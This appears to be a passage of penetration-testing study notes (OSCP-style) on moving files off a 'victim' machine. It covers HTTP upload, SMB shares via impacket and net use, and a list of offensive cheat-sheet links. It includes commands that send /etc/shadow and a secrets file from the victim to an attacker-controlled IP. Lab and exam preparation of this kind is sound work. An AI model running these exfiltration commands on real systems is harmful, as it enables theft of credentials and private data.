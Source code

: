 >If the upload isn't working, but the command is completing successfully, the _upload_max_filesize_ setting in **`/etc/php/<version>/apache2/php.ini`** may need to be increased.

### on remote machine victim

###### linux

```bash
curl --form "uploadedfile=@/etc/shadow" http://192.168.48.3/upload.php
```

###### windows

```powershell
powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.48.3/uploadWindows.php', '.\Secrets.jpg')
```

## smb

found [here](https://www.reddit.com/r/oscp/comments/13l244t/best_ways_to_transfer_files_from_windows_to_kali/):
 
start smb server on your kali VM in directory you want to put file: 
```bash
impacket-smbserver share . -smb2support -username user -password password
```

On the Windows machine, openPowerShell as administrator and run: 
```cmd
net use X: \\192.168.45.179\share /u:user password
cp * x:\ -Recurse
```

drive should show up in file explorer as `X:` or whatever letter you assigned in the powershell command

when done, disconnect:
```cmd
net use x: /delete
```
#### ***alternate*** RDP (untested)

2. open Run and enter: `\\<Kali VM IP address>\<chosen SMB drive name>`

once you have the drive showing up in windows, you can just drag and drop the file(s)


# cheat sheets

https://github.com/swisskyrepo/PayloadsAllTheThings

[the Runbook](https://medium.com/@Fanicia/oscp-prep-introducing-my-runbooks-enumeration-46d7ce270033)

## craig's recs

https://www.thehacker.recipes/
https://ppn.snovvcrash.rocks/
https://rmusser.net/docs/#/
https://lolbas-project.github.io/#
https://wadcoms.github.io/#
https://filesec.io/
https://gtfobins.github.io/
https://github.com/gquere/pwn_jenkins
